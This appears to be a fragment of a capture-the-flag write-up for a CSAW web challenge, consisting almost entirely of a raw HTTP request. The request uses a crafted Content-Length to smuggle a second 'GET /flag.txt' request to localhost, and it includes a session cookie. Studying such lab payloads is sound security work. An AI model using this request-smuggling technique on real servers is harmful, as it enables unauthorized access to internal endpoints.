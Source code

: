 GET /flag HTTP/1.1

Host: web.csaw.io:3009

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: http://web.csaw.io:3009/

Accept-Encoding: gzip, deflate

Accept-Language: en-US,en;q=0.9

Cookie: connect.sid=s%3AHwUBEiVGmxFbvio4XSZhvG0pEyirLFnW.i1rVgCorsS9VaTSFlWGpVlK8iuQPB3%2FOGu5CjMIg8ao

Connection: keep-alive

Content-Length: 43



GET /flag.txt HTTP/1.1

Host: localhost



